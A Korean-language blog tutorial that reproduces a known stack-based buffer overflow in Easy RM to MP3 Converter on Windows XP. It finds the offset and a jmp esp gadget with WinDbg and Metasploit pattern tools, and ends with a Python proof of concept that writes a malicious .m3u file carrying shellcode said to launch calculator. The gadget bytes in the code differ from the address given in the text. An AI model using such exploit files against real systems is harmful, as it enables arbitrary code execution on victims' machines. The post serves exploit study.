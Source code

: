 ```yaml
---
layout: post
title: [windows exploit tutorial] stack based overflow - Easy RM to MP3
---
```


0. Info
----------
corelen 팀의 windows exploit tutorial 문서 part 1 인 Easy RM to MP3프로그램의 stack based overflow 취약점을 이용해 exploit을 해보겠다. os 환경은 window xp sp3 en 에서 진행 하였다. debugger는 windbg를 이용하였다.

![](https://lh4.googleusercontent.com/ZIcdxR1-jprVAu9b47F5fQqiW26GXSSQZLlqFlK0pxXVM_u7v2c9nLy3vKhaixVYB7L2aJncbuzAVCruYf2fh8bIirmCMQtissCqZEqfAnCWLSNsK01wvP30v8bPZ-txkncxH3I2)

  

exploit db에 검색하면 해당 취약점에 대한 정보와 당시 프로그램을 구할 수 있다. 내가 공부한 내용은 2009-07-16 Crazy_Hacker가 발견한 버그이다.

  

1. Vulnerability

----------

.m3u 포멧의 파일을 열 때 stack based overflow 취약점이 발생한다.

  

![](https://lh3.googleusercontent.com/cdQ3kcN9Jl-xJzLhVlyrhP3TcjbHh1ulzxnkeb-MwzUBkEJm5iyXcniDZIDNPZy2ZGi94ZBi8vR0noamKSlqwozzskZPybn-C310bTc295iiqjWiuzMBgResxCjJ4tTp2k6Ogrmr)

  

파이썬을 이용해 “A”를 30000개를 적어준다.

  

이를 Easy RM to MP3로 열게 되면

  

![](https://lh4.googleusercontent.com/nqYshKyZjKSXE3-97ciq9x7YerEG0wVglCVvkhx5v6Ml06MGY9ajkHTiozJUqybWKIU0hMHyrzwKxXooDiHlgKzasWZWfCxrUzmT4_gLUuXIa7Phu3pmBU_HI2vlnjel2AP4Rd2i)

  

크래시가 발생되고 비정상적으로 프로그램이 종료된다.

  

2. exploit

----------

이제 좀 더 정확한 정보를 얻기 위해서 windbg를 이용해서 eip가 덮혔는지 확인 해보겠다. eip가 덮히면 해커의 시나리오 대로 프로그램을 조작할 수 있기 때문에 exploit 가능성이 높아진다.

  

일단 windbg를 post-mortem 으로 등록해야 한다. 이 기능은 자동적으로 프로그램이 crash가 발생하여 비정상적으로 종료가 되면 windbg를 실행시켜 그 정보를 바로 확인 할 수 있게 해준다.

  

windbg가 설치 되어 있는 폴더 에 들어가서 windbg.exe -I 로 설정할 수 있다.

![](https://lh3.googleusercontent.com/g41REbmXii4w88afMS04xZ12VCdaX7d_-g9VAIOGRzUtdWQzqGPuYD4Pyc1W9RYbaDVhxnq5Ewlax2j7Xc0gCM4MuZXZSo1km32fqz124VRioXRcCMsHl2_HEw02OGVGSwJpIeba)

![](https://lh4.googleusercontent.com/dXVssplaFXF1iL07tlUmr4MXaLZEUUfIXWdlU1HMUmfglyzRelWqpS19ode9gwlwSuZT1kPc6DOTanqXZRhG_HXUpBCNQnQT6KCWWeNZYqIDFRdZ_9W6ULLCI3HDqZAqAQDDZbgN)

  

성공적으로 postmortem 으로 등록 되었다.

  
  

다시 한번 carsh.m3u 파일을 실행해보겠다.

  

![](https://lh3.googleusercontent.com/AY9E4YGM-Qs8WyJxUqT_HsYdevolpdenQo_y6qT2sh16bHHHo6UDo1D5Dpd_2pHHa-VqWEAVaFO_4ZB_YOyknWgfzs0tsV8F4CfNVo4n6OPQUZ0kb-4euZkXqWG8Aal_94J2OQK7)

  

crash가 나면서 자동적으로 windbg가 실행되고 레지스터 사이를 보니 eip가 AAAA 41414141로 바뀌어 있다. 즉, stack based overflow를 이용해서 ret을 조작해 eip를 조작할 수 있고, 해커의 시나리오 대로 프로그램을 조작할 수 있게 된다.

  

aslr이 적용 되어 있지 않기 때문에 쉘코드를 스택에 넣고 뛰면 되겠지만 주소에 \x00 바이트를 포함 하고 있어 exploit 할 수 없다.

  

다른 방법을 모색해야 하는데, 바로 jmp esp 가젯을 이용하는 것 이다.

  

(pwnable.kr echo1문제도 jmp esp 가젯을 이용했던 것 같다. 관련 풀이를 보면 왜 이 가젯을 이용하는지 알게 될 거다.)

  

간단하게 설명하자면, 함수 에필로그 leave ; ret ; 에서 ret이 실행 되기 전에 mov esp, ebp 구문이 있다.

  

esp를 ebp로 데려오는데, 그러면 esp는 ret뒤를 가리키게 된다. eip를 jmp esp 가젯을 실행 하면, ret뒤로 뛰게 되는 거다.

  

그러면 payload에서 ret뒤에 shellcode를 위치시키면 shellcode를 실행 할 수 있게 될 것 이다.

  

“jmp esp” 가젯은 .dll 파일에서 찾을 수 있다. .dll파일은 windbg가 로드 될 때 상단에 정보가 보인다.

  

![](https://lh5.googleusercontent.com/tEaaI_QEZnPHHRq8YbPIAc5inj3JjG418e4L8B0iRqsryTLpmKUP0HjsHSJCj1FXxH72H3fGe5ncS-MOfbr384nHOgkHhA05R2ZtBCqtV2RxKBGt_kLTQHNi_Qla_56KPTvqLm0A)

  

system32 에 있는 .dll에서 가젯을 구하면 해당 pc에선 poc가 작동하겠지만 다른 곳에선 poc가 작동 안 할 수 있다. 따라서 프로그램이 자체적으로 가지고 있는 .dll에서 가젯을 구하도록 하겠다.

  

다시 windbg를 실행하고 멀쩡한 easy rm to mp3를 attach 한다. 사용할 .dll은

  

01c80000 0214d000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll

  

를 사용 할 것이다.

  

![](https://lh5.googleusercontent.com/gChFTiFAoT820hGeoBEtQkVao23IOdbnmNpIgxKkMUJ098UmU36AloD27GqOdCx04PqzsZFMlz0NAGSMA8_LgjOIcnxIVyWvZlA74mAfkuR1GsAMmQJ_Xw0BZ9cg6ojZkBYSHxV7)

  

일단 “jmp esp” 의 opcode를 찾아야 한다.

  

![](https://lh4.googleusercontent.com/dlVn30KEQVtJ7BsTCUJAV8_sXM22b5b-Y6hKthMcGiJKY_-4uvhe6HXMjKcOLkFgY_G1hawGgjiQXXyfBjB96TlmzXCZKONIuaIagSC-WreA8lS8fkoS6aa-qOu59I-NfC7QiBU6)

a(assemble) 를 적고

  

jmp esp를 적는다.

  

그럼 7c901210에 jmp esp가 있는거다.

  

![](https://lh5.googleusercontent.com/yI1mZLaDrLHDIiK3KrQ9naY0rlwqND_P8drLnBEtBMvjXg-lutFezpSUqj1kaQ7artp66IDqcc71GIxGkIvAI0YZzJAFVF7M9j772dcENHHmUrYkS6mim5DTk6sejuHRUO-3CxXJ)

  

ff e4가 jmp esp의 opcode인 것을 확인 할 수 있다.( 사실 pwntool로 구하는 걸 블로그에 올렸었던 것 같지만.. 이 문서에서는 이렇게 소개한다.)

  

이제 dll에서 ff e4를 찾으면 된다.

  

01c80000 0214d000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll

  

이 dll에서 01c80000 0214d000이게 그 영역인데,

  

![](https://lh3.googleusercontent.com/PZFXbEHTMbc8J_OKgS2oyJFDdzgHvwok_Z7hwbgsfvjKIvTYGkmCau6jSZ7MJfdRRM-GALuJbcjVkzEwgCdV8tJhZ-1VkrwIkXt1sGJd2qTy7GcKuhNv1QNurZdBZSoa5pYCEkRy)

  

이렇게 search 할 수 있다. ff e4의 위치는 0x1e3f23a 이다.

  

생각해보니 ret의 위치를 안 찾았다.

  

메타스플로잇의 tool인 pattern_create.rb, pattern_offset을 이용해서 ret의 위치, offset을 쉽게 구할 수 있다.

  

![](https://lh4.googleusercontent.com/OafX36Bi6K5E7ldKH8Ix0dEznhmcdA7VvLABLIo6YZCmOcrn6wUIXfbqbg4kAZOmrM0KVhK0ciIAap-3XFzivH9LAfr_BUfY7ch2-cXKh_zaslPGK5BVj37fDyLbkWDLzqi4nbx_)

  

이렇게 30000개의 패턴을 뽑은 뒤,

  

.m3u파일에 넣는다.

  

![](https://lh4.googleusercontent.com/OeXyCSv6MlFMnB_9PzBCqegdEiG2MTyLlJsioLYB_PLkFury0BND38dsu4vY6nge0ZlnNAdRJQl1QoxrhL9nhKF3gAgvGLRmJwRFwhkn1cl5nzC2iH8Jyb18gmLdKUA62lnxLqZa)

  

생성 된 파일을 실행시켜 crash를 낸다.

  

windbg가 실행되면서 eip가 조작 되었을거다.

  

![](https://lh5.googleusercontent.com/O7teTfnP8HUoUCabBvasigwyTNKOAogTVz1L5OsD8293BvNn0MPXDv2GuMFxqrLcM5SJzcL8bhglGoY8LeCkswcORL4_uXxPnBFiMsVi397YR0-pA_rYKuFA3aeEwbWF6W21c-BO)

  

eip 0x48386b48이 적혀있다.

  

![](https://lh3.googleusercontent.com/CmM-1elm22MagOn0KsqFpBh358L8_-J-PS8UVL8AihtgdS-CmIF0kaUvn9qFPbpSJS-8Eiiv1S8rm3VO_etPMifNnjTTpnSxQOuxjER7oG-m_HMlGgi7QTDjF7s4Fz_QcERf4wUf)

  

이렇게 ./pattern_offset.rb [eip] [create 한 byte길이] 를 실행하면

  

![](https://lh4.googleusercontent.com/StDB55DtoRqr1RiD9vsPTz1nDWIykXaiWuU_u9J7WceRNMPuQc4evtnHmik9Hm7ifQKhlYD_395AifbZBaJNGfvsoJ6egaRwsz_RhB7GPR7JFMJvR_z5jVWzEeQeC3lGdaaeiOc9)

5784 부분과 26064부분이라고 나오는데 우리는 20000이상이니깐 26064부터 4바이트가 ret위치라는 것을 알 수 있다.

  

이제 바로 poc를 작성 해보겠다.

  

3. poc

----------

  ```python
  f =  open("C:\\Documents and Settings\\Administrator\\Desktop\\crash.m3u", "w")

gadget =  "\x3a\xf2\xd2\x01"

shellcode =  "\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"  +"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"  +"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"  +"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"  +"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"  +"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"  +"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"  +"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"  +"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"  +"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"  +"\x7f\xe8\x7b\xca"

payload =  "A"*26064

payload += gadget

payload +=  "\x90"*50

payload += shellcode

payload +=  "\x90"*50

f.write(payload)

f.close()
```


  

사용한 쉘코드는 계산기를 띄우는 쉘코드이다.

  

생성된 crash.m3u를 실행 하게 되면

![](https://lh6.googleusercontent.com/SDdZuu6i1m-iaNLPukrxwUpBIiLEWNNDuB2s_40dNdH7yQOhRVuk7m_-x5a1xjC5EoBaV_1X80fS_YhFBrlGTYorv2egOzZAvJIkktoZcT0063TigeOGqMzPZUSj9EXBue38m7AJ)

  

성공적으로 계산기가 실행되었다.
